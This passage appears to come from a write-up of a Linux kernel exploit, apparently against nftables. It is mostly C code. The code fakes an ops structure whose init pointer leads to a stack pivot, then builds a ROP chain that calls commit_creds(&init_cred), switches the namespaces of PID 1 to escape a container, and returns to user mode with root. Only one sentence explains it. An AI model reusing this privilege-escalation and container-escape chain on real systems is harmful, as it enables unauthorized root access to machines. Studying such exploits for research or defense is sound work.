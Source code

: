```c
    data[i++] = 0;
    data[i++] = 8;                          // ops.size
    data[i++] = kbase + push_rsi_jmp_rsi_f; // ops.init
}
```

Then, when generating `last expr`, fake `ops->init` is called and the second ROP payload is executed to get the root shell.

```c
void make_payload2(uint64_t* data){
    int i = 0;

    // commit_creds(&init_cred)
    data[i++] = kbase + pop_rdi_ret;
    data[i++] = kbase + init_cred_off;
    data[i++] = kbase + commit_creds_off;

    // find_task_by_vpid(1)
    data[i++] = kbase + pop_rdi_ret;
    data[i++] = 1;
    data[i++] = kbase + find_task_by_vpid_off;

    // switch_task_namespaces(find_task_by_vpid(1), &init_nsproxy)
    data[i++] = kbase + mov_rdi_rax_ret;
    data[i++] = kbase + pop_rsi_ret;
    data[i++] = kbase + init_nsproxy_off;
    data[i++] = kbase + switch_task_namespaces_off;

    data[i++] = kbase + swapgs_restore_regs_and_return_to_usermode_off;
    data[i++] = 0;                  // rax
    data[i++] = 0;                  // rdx
    data[i++] = _user_rip;          // user_rip
    data[i++] = _user_cs;           // user_cs
    data[i++] = _user_rflags;       // user_rflags
    data[i++] = _user_sp;           // user_sp
    data[i++] = _user_ss;           // user_ss
}
```